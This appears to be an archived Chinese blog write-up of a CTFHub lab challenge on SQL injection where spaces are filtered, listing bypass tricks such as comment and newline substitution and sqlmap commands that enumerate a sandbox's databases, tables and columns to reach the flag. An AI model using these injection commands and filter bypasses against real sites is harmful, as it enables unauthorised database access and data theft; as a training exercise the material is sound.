








<!--yml
category: 未分类
date: 2022-04-26 14:47:07
-->

# CTFHub题解-技能树-Web（SQL注入-过滤空格）_唤变的博客-CSDN博客_sqlmap 空格过滤

> 来源：[https://blog.csdn.net/weixin_51706044/article/details/117618471](https://blog.csdn.net/weixin_51706044/article/details/117618471)

* * *

# 前言

<mark>在本文中将会采用两种注入手法：SQLmap和手注，当然记录这篇文章主要是对SQLmap的使用进行一下学习</mark>

# 过滤空格



既然是过滤空格，绕过空格的方法：

```
1、
2、()
3、%0a 
```



## SQLmap

对于SQLmap的使用可以参考[该笔者的文章](https://www.cnblogs.com/0yst3r-2046/p/10957616.html)

一、爆数据库

```
python sqlmap.py -u "http://challenge-ba6a5630047ce20b.sandbox.ctfhub.com:10800/?id=1" 
```

说明：

```
space2comment.py 
```

这是一个脚本，作用：是为了用/**/替换空格字符’ ‘
在`sqlmap`中为了绕过过滤，在`tamper`中有很多脚本用于绕过，如：`apostrophemask.py` （作用是用utf8代替引号）等



可以看到在这里得到了四个库名

二、爆数据表

```
python sqlmap.py -u "http://challenge-ba6a5630047ce20b.sandbox.ctfhub.com:10800/?id=1" -D "sqli" 
```



得到两张表

三、爆数据库字段

```
python sqlmap.py -u "http://challenge-ba6a5630047ce20b.sandbox.ctfhub.com:10800/?id=1" -D "sqli" -T "wnilazwjye" 
```





得到flag